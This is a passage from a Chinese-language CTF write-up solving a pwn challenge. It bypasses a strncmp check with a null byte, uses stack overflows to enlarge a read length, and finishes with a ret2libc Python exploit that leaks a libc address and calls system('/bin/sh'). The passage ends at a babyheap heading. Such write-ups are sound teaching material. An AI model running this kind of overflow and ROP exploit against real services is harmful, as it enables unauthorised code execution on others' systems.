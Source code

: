 ```c
    exit(0);
  write(1,"Correct\n", 8u);
  return v5;
}
```

这里的 `a1` 就是传入的随机数，然后要求我们的输入和随机数经过 `strncmp` 比较后完全相同，我们可以输入 `\x00` 使得 `strlen` 函数返回 0，从而使得 `strncmp` 函数只比较 0 个字节，那么就能绕过这里的 `exit(0)`，并返回 `v5`。注意到这里的返回值 `v5` 在 `ebp-0x25`，距离我们能控制的位于 `ebp-0x2c` 的变量 `buf` 相差 `0x7`，小于这里 `read` 的长度限制 `0x20`，因此可以通过栈溢出控制 `v5` 的值，从而控制 `main` 中的 `v2`。

随后，`v2` 会被传入 `sub_80487D0`:

```c
ssize_t __cdecl sub_80487D0(char a1)
{
  ssize_t result; // eax
  char buf; // [esp+11h] [ebp-E7h]

  if (a1 == 127)
    result = read(0, &buf, 0xC8u);
  else
    result = read(0, &buf, a1);
  return result;
}
```

`a1` 就是我们可以控制的 `v2`，也就是说这里可以向 `buf` 写入的数据长度也是我们能控制的，那么我们希望它尽可能大，也就是等于 `0xff`。那么在上一个函数中我们就需要令 `v5` 为 `0xff`，结合上面的绕过，可以输入 `'\x00' + 6*'a' + '\xff'` 来达到这个目的。最后 `ret2libc` 即可。

```python
def send1():
    payload = flat('\x00','a'*6,'\xff')
    sl(payload)
    ru('Correct\n')

send1()
main = 0x8048825
payload = flat('a'*(0xe7+4),elf.plt['write'],main,1,elf.got['__libc_start_main'],4)
sl(payload)

leak = u32(r(4))
system,binsh = ret2libc(leak,'__libc_start_main')

send1()
payload = flat('a'*(0xe7+4),system,'a'*4,binsh)
p.sendline(payload)
```

### babyheap_0ctf_2017

```
===== Baby Heap in 2017 =====
1. Allocate
2. Fill
3. Free
4. Dump
5. Exit
```
